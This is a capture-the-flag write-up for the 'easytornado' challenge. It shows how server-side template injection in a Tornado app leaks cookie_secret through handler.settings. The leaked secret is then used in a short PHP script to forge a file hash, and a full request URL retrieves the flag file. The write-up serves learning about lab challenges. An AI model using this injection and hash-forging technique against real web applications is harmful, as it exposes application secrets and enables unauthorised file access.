 # easytornado

![Screenshot from 2021-07-25 20-05-19](https://user-images.githubusercontent.com/87865134/126900112-a3444548-305e-4e83-aa6b-dea7e675cf3d.png)

### - Hint:
  - use ***Tornado template*** 
  - flag in ***/fllllllllllllag***  
 
![Screenshot from 2021-07-25 20-08-16](https://user-images.githubusercontent.com/87865134/126900198-767f6b23-6fc2-42df-bc00-6cadfcd6cafa.png) 

  - `flag = md5(cookie_secret + md5(filename)  `  

![Screenshot from 2021-07-25 20-08-22](https://user-images.githubusercontent.com/87865134/126900202-6e3db666-7514-4b05-839f-053bbd4ea55f.png)

### - Detect: Error message change when ***msg*** parameter change:
![Screenshot from 2021-07-25 20-13-01](https://user-images.githubusercontent.com/87865134/126900431-a21376a0-6639-4072-b171-521b9bcc3861.png)

### 1. Test Template Injection
  - `?msg={{1}}` -> ok  

![Screenshot from 2021-07-25 20-14-23](https://user-images.githubusercontent.com/87865134/126900438-26e58f61-5f73-43c2-bc56-e1ed7358ec67.png)

  - `?msg={{2*2}}` -> fail  

![Screenshot from 2021-07-25 20-16-57](https://user-images.githubusercontent.com/87865134/126900489-6e8bb9eb-d167-49d8-9e4f-5700e5509fd2.png)

   > **=> Can't inject normal python code**
 
### 2. Find Built-in Object or Function in Tornado Template
  - **handler**: the current RequestHandler object
  - **handler.settings**: An alias for self.application.settings
    - > Maybe use **handler.settings** to get cookie_secret  

### 3. Inject `handlder.settings` to get ***cookie_secret***

![Screenshot from 2021-07-25 20-25-44](https://user-images.githubusercontent.com/87865134/126900716-0223bff2-c032-4cc0-b592-7bbcb1e7a3a8.png)

  - > Get ***cookie_secret***
 
### 4. Write code to hash:  
  ```php
  <?php

    $filename = '/fllllllllllllag';
    $cookie_secret = 'fbd48365-83e4-4d36-92a5-40c76518080b';

    echo md5($cookie_secret . md5($filename));
    //6315535dd899bcca44fa44223763d16d 
?
  ```

### 5. Submit filename & hash to get flag
 ```
 http://111.200.241.244:54059/file?filename=/fllllllllllllag&filehash=6315535dd899bcca44fa44223763d16d
 ```

![Screenshot from 2021-07-25 20-30-36](https://user-images.githubusercontent.com/87865134/126900865-65f765d2-b0ca-4183-a111-762cf5c0080a.png)

### - Description:
  - > category: Server-side Template Injection

### - Reference:
  - [Tornado Template syntax](https://www.tornadoweb.org/en/latest/guide/templates.html)
  - [Tornado RequestHandler](https://www.tornadoweb.org/en/latest/web.html#tornado.web.RequestHandler)
  - [Tornado self.application.settings](https://www.tornadoweb.org/en/latest/web.html#tornado.web.Application.settings)
